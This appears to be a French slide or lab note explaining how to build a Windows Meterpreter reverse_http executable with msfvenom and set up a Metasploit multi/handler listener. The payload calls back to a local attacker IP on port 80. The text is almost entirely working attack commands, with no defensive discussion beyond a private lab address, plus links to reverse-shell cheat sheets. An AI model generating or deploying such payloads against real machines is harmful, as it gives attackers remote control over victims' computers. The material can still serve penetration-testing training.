

# Msfvnom en local
Utiliser ifconfig pour trouver l’adresse IP
Generer puis lancer le programme malvaillant sur le client (commande en un ligne) :
msfvenom -p windows/meterpreter/reverse_http -a x86 –platform windows -f exe LHOST=192.168.113.133 LPORT=80 -o /home/kali/Desktop/something32.exe
ou
msfvenom -p windows/x64/meterpreter/reverse_http -a x64 –platform windows -f exe LHOST=192.168.113.133 LPORT=80 -o /home/kali/Desktop/something32.exe

Changer droit pour être copié après :
chmod 777 /home/kali/Desktop/something32.exe
Créer le programme d’ecoute (search + use peut être aussi utilisé)  :
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.113.133
set lport 80
set exitonsession false
run -j –z
OLD Problem Resolution : https://null-byte.wonderhowto.com/forum/problem-with-msfvenom-windows-7-64-bit-exe-version-file-is-not-compatible-0177363/
DOC : https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
DOC2 : https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
DOC3 : https://medium.com/securebit/meterpreter-shell-as-a-32-64-bit-dll-2520604e41f6